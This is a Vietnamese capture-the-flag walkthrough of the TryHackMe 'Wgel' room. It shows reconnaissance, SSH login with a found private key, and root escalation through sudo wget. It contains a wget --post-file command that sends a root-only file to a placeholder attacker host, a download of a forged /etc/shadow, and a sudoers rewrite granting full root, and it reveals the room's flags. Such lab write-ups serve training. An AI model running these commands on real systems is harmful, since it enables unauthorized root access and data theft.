










# __CTF Wgel__

Room at https://tryhackme.com/room/wgelctf

---

??? question "List of the questions solved"

    Question: User flag
    > 057c67131c3d5e42dd5cd3075b198ff6

    Question: Root flag
    > b1b968b37519ad1daa6408188649263d

## __Pentest scenario__

Host: 10.10.157.188

> Đây là một challenge thuộc loại easy nhưng khá độc đáo về hướng tiếp cận và nó khá hay nên tôi sẽ nói nhiều hơn một xíu

### __Reconnaissance__

Như các challenge khác, ta cũng scan một vài thứ như port, dir,... bằng nmap, gosbuter,...

```ps1 title="Nmap scan NULL"
PORT   STATE         SERVICE
22/tcp open|filtered ssh
80/tcp open|filtered http
```

```ps1 title="Gobuster scan"
/sitemap              (Status: 301)
```


Website này được build bởi WordPress và dùng Colorlib template.

Ta vào website OSINT vài thứ thì thấy trang Contact Us như bên dưới



Nhìn có vẻ khai thác được gì đó, nhưng sau một vài phép thử input trong các box, và xem tab network thì đây chỉ là 1 trang vô hại mà thôi :V. Đi theo hướng khai thác này là hỏng

Website này bắt đầu từ sitemap, tiếp tục scan tiếp

> Đây là 1 website build khá chỉnh chu nên scan gobuster tốn thời gian lắm, dirbuster cho nhanh.  



Lúc này mới xuất hiện vấn đề :3. Ta thấy xuất hiện khá nhiều dir nhưng chẳng có thể khai thác được gì tại vì chính cái wordlist ta thường dùng không có database cho file `hidden`. Ta phải dùng wordlist khác (cái này hay nè).

```ps1 title="Gobuster scan"
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319]  [--> http://xx.xx.xxx.xxx/sitemap/.ssh/]
```
Rồi, có được key ssh rồi
> Thử dùng john để crack password nhen :3

Giờ tìm username, tìm đâu ra?

Ta sẽ kiểm tra sourcecode web từng cái, và username nó nằm ở cái website ban đầu ::)



### __Init Access__

Login bằng ssh thôi

> ssh -i id_rsa jessie@10.10.157.188 



Rồi ngon luôn, được cái quyền sudo wget

### __Privilege Escalation__

Thông thường gặp leo quyền sudo như vầy, mọi người sẽ có xu hướng lên https://gtfobins.github.io/gtfobins/wget và lấy command về chạy. Thì với bài này, ta làm như thế nó không work.

Đối với ngữ cảnh của challenge trên TryHackMe, dễ dàng ta biết được file root.txt nằm trong /root/root.txt. Do đó ta có thể lấy được file này dễ dàng bằng wget 

??? success "Cách lấy"
    Tại máy jessie
    
    ```ps1 title="Terminal"
    sudo wget --post-file=/root/root_flag.txt ATTACKER_IP:ATTACKER_PORT_LISTEN
    ```
    
    Tại máy attacker

    ```ps1 title="Terminal"
    nc -lnvp ATTACKER_PORT_LISTEN
    ```

Nhưng cái quan trọng của ta là leo quyền root.



## __Some problems__

Nói về việc leo quyền với wget thì ta có nhiều hướng tiếp cận, vì ta có thể linh động trong việc vận chuyển và sửa đổi các file nhạy cảm như `passwd, shadow, crontab,...` hay đặc biệt hơn là file sudoers.

Việc tôi xếp loại file passwd trước file shadow nhưng lại trình bày sau file shadow (2 chỉ mục bên dưới) đều có ý đồ cả đấy. Bạn thử đoán nhé.

Các định nghĩa bên dưới, tôi dùng ChatGPT giải thích.

### __/etc/shadow__

`/etc/shadow` là một tệp văn bản trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux) được sử dụng để lưu trữ thông tin về mật khẩu của người dùng. Khác với tệp /etc/passwd, tệp /etc/shadow chứa các thông tin về mật khẩu đã được băm (hash) và được sử dụng để xác thực người dùng khi họ đăng nhập vào hệ thống.

Cấu trúc của mỗi dòng trong tệp /etc/shadow bao gồm các trường cách nhau bằng dấu hai chấm (":"):

1. Tên người dùng (Username): Tên đăng nhập duy nhất cho tài khoản người dùng.

2. Mật khẩu (Password): Mật khẩu đã được băm (hash) và được lưu trữ ở đây. Thay vì lưu trữ mật khẩu ở bản rõ, hệ thống lưu trữ một giá trị băm của mật khẩu, là một chuỗi `không thể` đảo ngược để khôi phục mật khẩu gốc.

3. Ngày thay đổi mật khẩu cuối cùng (Last Password Change): Đây là số ngày tính từ ngày 1/1/1970 (epoch) đến ngày thay đổi mật khẩu cuối cùng. Thông tin này được sử dụng để kiểm tra xem mật khẩu có cần phải thay đổi hay không.

4. Ngày tối thiểu để thay đổi mật khẩu tiếp theo (Minimum Password Age): Số ngày tối thiểu giữa các lần thay đổi mật khẩu.

5. Ngày tối đa để thay đổi mật khẩu tiếp theo (Maximum Password Age): Số ngày tối đa mà một mật khẩu có thể tồn tại trước khi người dùng bắt buộc phải thay đổi.

6. Số ngày cảnh báo trước khi hết hạn mật khẩu (Password Expiry Warning): Số ngày trước khi mật khẩu hết hạn, người dùng sẽ được cảnh báo.

7. Số ngày sau khi hết hạn mật khẩu mà tài khoản vẫn còn hoạt động (Account Inactivity): Số ngày mà tài khoản có thể tồn tại sau khi mật khẩu đã hết hạn.

8. Ngày hết hạn tài khoản (Account Expiry Date): Ngày mà tài khoản sẽ hết hạn và không thể sử dụng nữa.

9. Tài khoản bị khóa (Account Disabled): Trường này xác định xem tài khoản có bị khóa hay không.

`/etc/shadow` được bảo vệ cẩn thận và chỉ có quyền truy cập hạn chế cho người dùng root hoặc các quản trị viên hệ thống. Điều này giúp bảo vệ thông tin mật khẩu của người dùng khỏi việc truy cập trái phép.

Tuy ta không có quyền xem file /etc/shadow nhưng ta lại có quyền sudo wget. Do đó, ta có thể dùng wget để tạo kết nối nhằm dùng john để tìm password của root trong file /etc/shadow nhưng hướng này bruteforce không ra password, nên tôi không để vào ngữ cảnh triển khai.

Thực ra hướng này ta có thể đoán từ đầu là không thể kể từ lúc bruteforce không ra password từ id_rsa key rồi.

Nhưng mà khoan, ta có thể cài đặt password mới cho root mà, đúng không?

??? note "script.py"
    ```python title="Script tạo password abc cho root"
    import crypt
    crypt.crypt('abc')
    ```

    output: `$6$Datncmm.PBBQkKys$5WA2bUtuR6eEXngZIQDMKSXZ8woGOWeXn85GeoCexca8FOapBGA5HKAGRlhkm3P.qrd5bMwgvJazlBAli5rWo1`

Oke giờ ta sẽ tạo cho root password là `abc` và ghi vào file shadow



Vận chuyển file shadow đến máy jessie

??? success "Cách vận chuyển"
    Tại máy attacker

    ```ps1 title="Terminal"
    python3 -m http.server
    ```

    Tại máy jessie
    
    ```ps1 title="Terminal"
    sudo wget ATTACKER_IP:ATTACKER_PORT_LISTEN/shadow --output-document=shadow
    ```

### __/etc/passwd__

`/etc/passwd` là một tệp văn bản trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux) được sử dụng để lưu trữ thông tin tài khoản người dùng:

- __Trong quá khứ__, nó thường chứa thông tin cơ bản về các tài khoản người dùng trên hệ thống.
- __Hiện nay__ nó thường chỉ chứa một loạt các mục thể hiện thông tin người dùng.

Cấu trúc của mỗi dòng trong tệp `/etc/passwd` bao gồm các trường cách nhau bằng dấu hai chấm (":"):

Tên người dùng (Username): Đây là tên đăng nhập duy nhất cho tài khoản người dùng.

1. Mật khẩu (Password): 

    - __Trong quá khứ__, mật khẩu thường được lưu trữ ở đây dưới dạng băm (hash). 
    - Hiện nay, hầu hết các hệ thống sử dụng các cơ chế bảo mật khác để lưu trữ mật khẩu, và trường này thường chỉ chứa một dấu "x" hoặc một ký tự ngẫu nhiên. Điều quan trọng hơn hết là password hiện nay sẽ lưu tại /etc/shadow.

2. User ID (UID): Đây là một số duy nhất được gán cho mỗi người dùng trên hệ thống.

3. Group ID (GID): Đây là số nhóm chứa người dùng, thường là một nhóm mặc định.

4. Thông tin về người dùng (User Info): Mô tả thêm về người dùng hoặc tài khoản.

5. Thư mục nhà (Home Directory): Đây là thư mục mà người dùng sẽ __truy cập__ khi đăng nhập.

6. Shell: Đây là chương trình dòng lệnh mà người dùng sử dụng khi đăng nhập.

Tuy nhiên, điều quan trọng cần lưu ý là với các phiên bản hệ điều hành hiện đại, thông tin tài khoản người dùng thường không được lưu trữ trực tiếp trong tệp /etc/passwd nữa vì lý do bảo mật. Thay vào đó, thông tin tài khoản thường được quản lý bởi các cơ chế quản lý tài khoản và bảo mật hệ thống khác (/etc/shadow).

Chính vì những lý giải trên, về mặt bản chất file /etc/passwd vẫn có thể lưu password tài khoản được (thay thế vị trí "x" trong file). Nên ta có thể ghi trực tiếp password vào file này.

> "/etc/shadow làm được thì /etc/passwd làm được"



### __/etc/crontab__

Tệp `/etc/crontab` là một tệp văn bản được sử dụng trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux) để định lịch chạy các tác vụ định kỳ tự động (cron jobs). Cron jobs là các tác vụ được lên lịch để thực hiện một cách tự động vào các thời điểm cụ thể, ví dụ như hàng ngày, hàng tuần, hoặc mỗi giờ.

Cấu trúc của mỗi dòng trong tệp /etc/crontab thường bao gồm các trường cách nhau bằng dấu cách:

- Phút (Minute): Phút cụ thể trong mỗi giờ mà tác vụ sẽ được thực hiện (giá trị từ 0 đến 59).
- Giờ (Hour): Giờ cụ thể trong ngày mà tác vụ sẽ được thực hiện (giá trị từ 0 đến 23).
- Ngày trong tháng (Day of Month): Ngày trong tháng mà tác vụ sẽ được thực hiện (giá trị từ 1 đến 31).
- Tháng (Month): Tháng mà tác vụ sẽ được thực hiện (giá trị từ 1 đến 12 hoặc có thể sử dụng tên tháng).
- Ngày trong tuần (Day of Week): Ngày trong tuần mà tác vụ sẽ được thực hiện (giá trị từ 0 đến 6, với 0 là Chủ Nhật).
- Người dùng (User): Tên người dùng mà tác vụ sẽ được thực hiện dưới quyền của. Đây là tùy chọn, nếu không có, tác vụ sẽ được thực hiện dưới quyền người dùng root.
- Lệnh (Command): Lệnh cụ thể mà bạn muốn thực hiện trong tác vụ cron.

Tệp `/etc/crontab` thường chỉ được sửa đổi bởi người dùng có quyền quản trị (root) và chứa các tác vụ được xác định bởi hệ thống hoặc quản trị viên hệ thống để tự động thực hiện các tác vụ như sao lưu dữ liệu, cập nhật hệ thống, hoặc thực hiện các tác vụ định kỳ khác.



Về phần crontab ta có thể schedule bất kì điều gì. Ví dụ như là mở revershell để chiếm quyền admin,...

> Dùng lệnh `systemctl status cron` để xem status cron


Ý tưởng tôi muốn thực hiện cronjob ở đây là ghi vào file sudoers, thì ý tưởng này tôi đã triển khai ở dưới phần __/etc/sudoers__

Bạn có thể xem thêm [tại đây](https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/#:~:text=Since%20Cron%20runs%20as%20root%20when%20executing%20%2Fetc%2Fcrontab%2C,to%20be%20executed%20by%20Cron%20under%20root%20privileges%21)

### __/etc/sudoers__

Tệp `/etc/sudoers` là một tệp cấu hình quan trọng trong hệ thống Unix và các hệ thống dựa trên Unix (như Linux), được sử dụng để quản lý quyền truy cập đặc biệt của các người dùng. Nó quản lý quyền truy cập để thực hiện các lệnh với quyền hạn đặc biệt (như quyền root) thông qua lệnh sudo.

Tệp /etc/sudoers chứa danh sách các quyền truy cập đặc biệt cho các người dùng hoặc nhóm người dùng cụ thể, cho phép họ thực hiện các lệnh với quyền hạn cao hơn mà họ thường không có. Cấu trúc của tệp này có thể khá phức tạp và đòi hỏi quyền truy cập quản trị (root) để chỉnh sửa.

Mỗi dòng trong tệp /etc/sudoers chứa một quyền truy cập được định nghĩa theo cú pháp:

```
nguoidung   ALL=(quyen) lenh
```

Trong đó:

- `nguoidung` là tên người dùng hoặc nhóm người dùng được cấp quyền truy cập.
- `ALL` cho phép người dùng sử dụng sudo từ bất kỳ máy tính nào.
- `(quyen)` là quyền truy cập cụ thể mà người dùng được phép thực hiện. Ví dụ: ALL, NOPASSWD, ALL=(ALL:ALL), v.v.
- `lenh` là lệnh cụ thể mà người dùng có thể thực hiện với quyền đặc biệt.

Ví dụ cụ thể về nội dung trong tệp /etc/sudoers:

```ps1
# Cho phép người dùng alice thực hiện bất kỳ lệnh nào với quyền root mà không cần mật khẩu
alice   ALL=(ALL:ALL) NOPASSWD: ALL

# Cho phép người dùng bob thực hiện lệnh reboot mà không cần mật khẩu
bob     ALL=(ALL) NOPASSWD: /sbin/reboot
```

File sudoers trong CorpOne sẽ như thế này đây



Ta chỉnh cần chỉnh dòng `jessie  ALL=(root) NOPASSWD: /usr/bin/wget` thành `jessie  ALL=(root) NOPASSWD: ALL` để user jessie leo quyền thành công.



## __What we learned__

1. Privilege Escalation with wget 